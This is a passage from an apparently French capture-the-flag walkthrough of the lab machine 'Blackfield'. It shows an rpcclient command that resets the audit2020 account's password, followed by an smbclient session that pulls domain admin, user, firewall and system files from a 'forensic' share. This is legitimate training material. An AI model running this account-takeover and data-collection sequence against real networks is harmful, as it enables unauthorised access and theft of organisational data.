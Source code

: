 Je modifie le mot de passe du compte `audit2020`.

	rpcclient $> setuserinfo2 audit2020 23 '@ud172020'


Le compte audit2020 est compromis ! Je peux maintenant accéder au contenu du dossier forensic. 


	kali@kali:~$ smbclient \\\\10.10.10.192\\forensic -U "blackfield\audit2020" 
	Enter BLACKFIELD\audit2020's password: 
	Try "help" to get a list of possible commands.
	smb: \> dir
	  .                                   D        0  Sun Feb 23 08:03:16 2020
	  ..                                  D        0  Sun Feb 23 08:03:16 2020
	  commands_output                     D        0  Sun Feb 23 13:14:37 2020
	  memory_analysis                     D        0  Thu May 28 16:28:33 2020
	  tools                               D        0  Sun Feb 23 08:39:08 2020
	
		            7846143 blocks of size 4096. 3661533 blocks available
	smb: \> 

De nouveaux fichiers, de nouvelles lectures :) Je télécharge tout.

	smb: \> cd commands_output\
	smb: \commands_output\> dir
	  .                                   D        0  Sun Feb 23 13:14:37 2020
	  ..                                  D        0  Sun Feb 23 13:14:37 2020
	  domain_admins.txt                   A      528  Sun Feb 23 08:00:19 2020
	  domain_groups.txt                   A      962  Sun Feb 23 07:51:52 2020
	  domain_users.txt                    A    16454  Fri Feb 28 17:32:17 2020
	  firewall_rules.txt                  A   518202  Sun Feb 23 07:53:58 2020
	  ipconfig.txt                        A     1782  Sun Feb 23 07:50:28 2020
	  netstat.txt                         A     3842  Sun Feb 23 07:51:01 2020
	  route.txt                           A     3976  Sun Feb 23 07:53:01 2020
	  systeminfo.txt                      A     4550  Sun Feb 23 07:56:59 2020
	  tasklist.txt                        A     9990  Sun Feb 23 07:54:29 2020
	
		            7846143 blocks of size 4096. 3676167 blocks available
	smb: \commands_output\> mget *
	Get file domain_admins.txt? y
	getting file \commands_output\domain_admins.txt of size 528 as domain_admins.txt (0.6 KiloBytes/sec) (average 0.6 KiloBytes/sec)
	Get file domain_groups.txt? y
	getting file \commands_output\domain_groups.txt of size 962 as domain_groups.txt (1.1 KiloBytes/sec) (average 0.8 KiloBytes/sec)
	Get file domain_users.txt? y
	getting file \commands_output\domain_users.txt of size 16454 as domain_users.txt (23.8 KiloBytes/sec) (average 7.2 KiloBytes/sec)
	Get file firewall_rules.txt? y
	getting file \commands_output\firewall_rules.txt of size 518202 as firewall_rules.txt (310.8 KiloBytes/sec) (average 129.4 KiloBytes/sec)
	Get file ipconfig.txt? y
	getting file \commands_output\ipconfig.txt of size 1782 as ipconfig.txt (5.2 KiloBytes/sec) (average 119.9 KiloBytes/sec)
	Get file netstat.txt? y
	getting file \commands_output\netstat.txt of size 3842 as netstat.txt (7.3 KiloBytes/sec) (average 108.1 KiloBytes/sec)
	Get file route.txt? y
	getting file \commands_output\route.txt of size 3976 as route.txt (5.9 KiloBytes/sec) (average 96.0 KiloBytes/sec)
	Get file systeminfo.txt? y
	getting file \commands_output\systeminfo.txt of size 4550 as systeminfo.txt (4.5 KiloBytes/sec) (average 82.0 KiloBytes/sec)
	Get file tasklist.txt? y
	getting file \commands_output\tasklist.txt of size 9990 as tasklist.txt (6.4 KiloBytes/sec) (average 67.8 KiloBytes/sec)
	smb: \commands_output\> 
